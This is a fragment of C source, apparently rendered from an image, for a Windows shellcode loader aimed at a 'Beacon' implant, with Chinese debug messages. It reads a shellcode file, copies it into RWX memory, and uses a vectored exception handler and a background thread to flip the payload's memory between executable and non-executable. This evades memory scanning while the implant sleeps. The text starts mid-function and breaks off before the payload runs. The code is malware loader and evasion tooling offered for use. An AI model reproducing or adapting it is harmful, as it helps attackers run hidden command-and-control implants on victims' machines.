 ```
  return p;
}

BOOL is_Exception(DWORD64 Exception_addr)
{
  if (Exception_addr < ((DWORD64)Beacon_address + Beacon_data_len) && Exception_addr >(DWORD64)Beacon_address)
  {
    printf("地址符合:%llx\n", Exception_addr);
    return true;
  }
  printf("地址不符合:%llx\n", Exception_addr);
  return false;
}

LONG NTAPI FirstVectExcepHandler(PEXCEPTION_POINTERS pExcepInfo)
{
  printf("FirstVectExcepHandler\n");
  printf("异常错误码:%x\n", pExcepInfo->ExceptionRecord->ExceptionCode);
  printf("线程地址:%llx\n", pExcepInfo->ContextRecord->Rip);
  if (pExcepInfo->ExceptionRecord->ExceptionCode == 0xc0000005 && is_Exception(pExcepInfo->ContextRecord->Rip))
  {
    printf("恢复Beacon内存属性\n");
    VirtualProtect(Beacon_address, Beacon_data_len, PAGE_EXECUTE_READWRITE, &Beacon_Memory_address_flOldProtect);
    return EXCEPTION_CONTINUE_EXECUTION;
  }
  return EXCEPTION_CONTINUE_SEARCH;
}

DWORD WINAPI Beacon_set_Memory_attributes(LPVOID lpParameter)
{
  printf("Beacon_set_Memory_attributes启动\n");
  while (true)
  {
    WaitForSingleObject(hEvent, INFINITE);
    printf("设置Beacon内存属性不可执行\n");
    VirtualProtect(Beacon_address, Beacon_data_len, PAGE_READWRITE, &Beacon_Memory_address_flOldProtect);
    ResetEvent(hEvent);
  }
  return 0;
}

int main()
{
  hEvent = CreateEvent(NULL, TRUE, false, NULL);

  AddVectoredExceptionHandler(1, &FirstVectExcepHandler);
  Hook();
  HANDLE hThread1 = CreateThread(NULL, 0, Beacon_set_Memory_attributes, NULL, 0, NULL);
  CloseHandle(hThread1);

  unsigned char *BinData = NULL;
  size_t size = 0;

  char* szFilePath = "C:\\Users\\WBG\\Downloads\\Test.bin";
  BinData = ReadBinaryFile(szFilePath, &size);
  shellcode_addr = VirtualAlloc(NULL, size, MEM_COMMIT, PAGE_READWRITE);
  memcpy(shellcode_addr, BinData, size);
  VirtualProtect(shellcode_addr, size, PAGE_EXECUTE_READWRITE, &Beacon_Memory_address_flOldProtect);
```